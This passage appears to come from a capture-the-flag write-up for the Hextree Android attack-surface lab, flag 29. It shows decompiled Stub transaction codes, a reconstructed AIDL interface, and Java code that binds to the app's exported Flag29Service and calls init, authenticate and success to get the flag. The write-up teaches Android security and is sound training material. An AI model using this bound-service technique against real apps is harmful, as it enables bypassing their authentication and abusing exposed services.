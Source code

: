 ```java
        }
    }

    public static abstract class Stub extends Binder implements IFlag29Interface {
        static final int TRANSACTION_authenticate = 2;
        static final int TRANSACTION_init = 1;
        static final int TRANSACTION_success = 3;

```

okay now from here we have the `DESCRIPTOR` and the order of methods should be 
1. init()
2. authenticate()
3. success()
#### Solution

##### Defining the file
Now creating the aidl file with the order in mind we get

```java
// IFlag29Interface.aidl  
package io.hextree.attacksurface.services;  

interface IFlag29Interface {  
	String init();  
	void authenticate(String str);  
    void success();  
}
```

then in our app we create a service connection using `IFlag29Interface` and calling  `init()` while saving the string returned in `pass` then passing it to `authenticate()` and finally calling `success()`

```java
Intent send = new Intent();  
send.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag29Service");  
ServiceConnection serviceConnection4 = new ServiceConnection() {  
    @Override  
    public void onServiceConnected(ComponentName name, IBinder service) {  
        IFlag29Interface remoteService = IFlag29Interface.Stub.asInterface(service);  
        try {  
            String pass = remoteService.init();  
            remoteService.authenticate(pass);  
            remoteService.success();  
        } catch (RemoteException e) {  
            throw new RuntimeException(e);  
        }  
    }  
  
    @Override  
    public void onServiceDisconnected(ComponentName name) {  
    }  
};  
  
bindService(send,serviceConnection4, Context.BIND_AUTO_CREATE);
```
